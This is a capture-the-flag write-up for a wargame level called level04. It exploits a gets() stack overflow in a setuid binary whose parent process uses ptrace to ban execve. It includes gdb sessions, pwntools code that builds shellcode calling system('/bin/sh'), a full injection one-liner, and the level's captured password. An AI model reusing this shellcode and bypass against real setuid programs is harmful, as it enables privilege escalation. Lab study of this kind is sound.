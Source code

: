 # LEVEL04 - STACK BUFFER OVERFLOW 2 - SYSCALL BAN

We have a binary named level04 at /home/users/level04/

It is owned by `level05` and has a `setuid bit`

The program first defines some variables then calls `fork`

```c
int main(void)
{
	int childStatus;
	char shellcode[128];
	int syscallNumber;
	__pid_t childPid;
	
	childPid = fork();
```

Then we can divide the code in two sections: `parent` and `child`

Here is the `parent` part: 

```c
if (childPid != 0)
	{
		// parent
		do
		{
			wait(&childStatus);
			int exitStatus = childStatus / 256;
			int signalNumber = childStatus % 128;
			if ((exitStatus != 0) || (signalNumber > 0 && signalNumber != 127))
			{
				puts("child is exiting...");
				return 0;
			}
			syscallNumber = ptrace(PTRACE_PEEKUSER, childPid, EIP_OFFSET, 0);
		} while (syscallNumber != EXECVE_SYSCALL);
		puts("no exec() for you");
		kill(childPid, 9);
	}
```

It waits for any change in the child's status, checks if the child has exited then gets the last syscall number stored in the EIP register of the child process.

If the syscall is `execve` it kills the child and prints "no exec() for you" or else it continues to loop

Here is the `child` part:

```c
else
	{
		// child
		prctl(1, 1);
		ptrace(PTRACE_TRACEME, 0, 0, 0);
		puts("Give me some shellcode, k");
		gets(shellcode);
	}
```

The child first makes itself tracable then ask the user for some shellcode

We can use a buffer overflow vulnerability using `gets`

```c
char shellcode[128];
...
gets(shellcode);
```

The strategy here is to inject a shellcode but we can not call the execve syscall in the child process.

We will try to use the `system` function to bypass this protection because it creates a subprocess that will then call `execve` but this protection only checks if the child is calling `execve`

First we have to find out if the `system` function is already imported inside the code

```
level04@OverRide:~$ gdb ./level04
(gdb) b main
Breakpoint 1 at 0x80486cd
(gdb) r
Starting program: /home/users/level04/level04

Breakpoint 1, 0x080486cd in main ()
(gdb) info functions system
All functions matching regular expression "system":

Non-debugging symbols:
0xf7e6aed0  __libc_system
0xf7e6aed0  system
0xf7f48a50  svcerr_systemerr
```

The `system` function is already imported inside the code and is located at address `0xf7e6aed0`

Now let's try to exploit the overflow, first we have to set `follow-fork-mode` to `child` inside `gdb` to make it follow the child process then we set a breakpoint in the `child` just after `gets`

```
(gdb) set follow-fork-mode child

(gdb) disas main
...
0x0804875e <+150>:   call   0x80484b0 <gets@plt>
0x08048763 <+155>:   jmp    0x804881a <main+338>
...

(gdb) b*0x08048763
Breakpoint 1 at 0x8048763

(gdb) r < <(python -c "print(156*'a'+'ABCD')")
Starting program: /home/users/level04/level04 < <(python -c "print(200*'a')")
[New process 1581]
Give me some shellcode, k
[Switching to process 1581]
Breakpoint 1, 0x08048763 in main ()
child is exiting...

(gdb) info frame
Stack level 0, frame at 0xffffd720:
 eip = 0x8048763 in main; saved eip 0x44434241

(gdb) info reg
eax            0xffffd680

(gdb) x/s 0xffffd680
0xffffd680:      'a' <repeats 156 times>, "ABCD"
```

We have succesfully found the buffer's address (`0xffffd680`) and it's offset until the return address of the `child` process (`156`)

Now let's craft the shellcode

```python
#system("/bin/sh")
bufferAddress = '0xffffd680'
systemAddress = '0xf7e6aed0'
hexCode = pwn.asm('''
	xor eax, eax
	push eax
	push 0x68732f2f
	push 0x6e69622f
	mov ebx, esp
	push ebx

	mov eax, ''' + systemAddress + '''
	call eax
    ''').hex()

addressCode = addBackslashX(invertEndian(bufferAddress))
sys.stdout.write('\nAddress:\n' + addressCode + '\n')
sys.stdout.write('Len: ' + str(int(len(addressCode) / 4)) + '\n')

shellCode = addBackslashX(hexCode)
sys.stdout.write('\nShellcode:\n' + shellCode + '\n')
sys.stdout.write('Len: ' + str(int(len(shellCode) / 4)) + '\n')
```

We get this code:

```
Address:
\x80\xd6\xff\xff
Len: 4

Shellcode:
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x53\xb8\xd0\xae\xe6\xf7\xff\xd0
Len: 23
```

We will have to add `133` filling characters (156 - 23)

Here is what the payload looks like

```
python -c "print('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x53\xb8\xd0\xae\xe6\xf7\xff\xd0' + 133 * 'a' + '\x80\xd6\xff\xff')"
```

Let's try it

```
(gdb) b*0x08048763
Breakpoint 1 at 0x8048763

(gdb) set follow-fork-mode child*
Undefined item: "child*".

(gdb) set follow-fork-mode child

(gdb) r < <(python -c "print('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x53\xb8\xd0\xae\xe6\xf7\xff\xd0' + 133 * 'a' + '\x80\xd6\xff\xff')")
Starting program: /home/users/level04/level04 < <(python -c "print('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x53\xb8\xd0\xae\xe6\xf7\xff\xd0' + 133 * 'a' + '\x80\xd6\xff\xff')")
[New process 1690]
child is exiting...
Give me some shellcode, k
[Switching to process 1690]
Breakpoint 1, 0x08048763 in main ()

(gdb) info frame
Stack level 0, frame at 0xffffd720:
 eip = 0x8048763 in main; saved eip 0xffffd680
```

The return address was successfully overridden by the buffer's address

Let's try to display our shellcode inside the buffer

```
(gdb) x/12i 0xffffd680
   0xffffd680:  xor    %eax,%eax
   0xffffd682:  push   %eax
   0xffffd683:  push   $0x68732f2f
   0xffffd688:  push   $0x6e69622f
   0xffffd68d:  mov    %esp,%ebx
   0xffffd68f:  push   %ebx
   0xffffd690:  mov    $0xf7e6aed0,%eax
   0xffffd695:  call   *%eax
   0xffffd697:  popa
   0xffffd698:  popa
   0xffffd699:  popa
   0xffffd69a:  popa
```

The shellcode is present and looks good, let's continue

```
(gdb) c
Continuing.
[New process 1692]
process 1692 is executing new program: /bin/dash
```

The shell was successfully executed, now let's do it in "real mode"

We need to increase a bit the address of the buffer to get is right, here we will add 32 bytes making the address `0xffffd6a0`

```
level04@OverRide:~$ (python -c "print('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x53\xb8\xd0\xae\xe6\xf7\xff\xd0' + 133 * 'a' + '\xa0\xd6\xff\x
ff')"; cat) | ./level04
Give me some shellcode, k
whoami
level05
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```

The flag is

```
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```